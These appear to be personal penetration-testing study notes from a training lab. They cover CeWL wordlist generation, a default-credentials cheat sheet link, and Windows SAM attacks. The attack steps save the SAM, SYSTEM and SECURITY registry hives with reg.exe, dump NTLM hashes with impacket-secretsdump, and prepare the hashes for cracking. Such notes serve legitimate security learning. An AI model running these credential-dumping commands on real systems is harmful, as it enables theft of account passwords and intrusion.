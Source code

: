 ```shell-session
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```


---

# <mark class="hltr-pink">Password Reuse / Default Passwords</mark>

[Default Credentials Cheat Sheet](https://raw.githubusercontent.com/ihebski/DefaultCreds-cheat-sheet/main/DefaultCreds-Cheat-Sheet.csv)

---

# <mark class="hltr-pink">Windows Local Password Attacks</mark>

## <mark class="hltr-cyan">Attacking SAM</mark>

### <mark class="hltr-orange">Using reg.exe save to copy SAM Registry Hives</mark>

There are three registry hives that we can copy if we have local <mark class="hltr-green">admin</mark> access on the target.

![[Pasted image 20240827035210.png]]

Launching CMD as an <mark class="hltr-green">admin</mark> will allow us to run reg.exe to save copies of the aforementioned registry hives. Run these commands below to do so:

```cmd-session
C:\> reg.exe save hklm\sam C:\sam.save
C:\> reg.exe save hklm\system C:\system.save
C:\> reg.exe save hklm\security C:\security.save
```

We can then send those files to our attack machine.

### <mark class="hltr-orange">Dumping Hashes with Impacket's secretsdump.py</mark>

Keep in mind that the .save files are not human readable format, thus we need a tool to extract the hashes. One incredibly useful tool we can use to dump the hashes offline is Impacket's <mark class="hltr-green">secretsdump.py</mark>.

```shell-session
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

![[Pasted image 20240827042408.png]]

we now have to crack the passwords associated with these hashes:
1. copy and paste the previous NTLM Hashes into a file called hashes.txt
2. Enter this vim cmd: `norm0f:f:df:d0$bD` to extract the nthash for each line
3. save the file


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>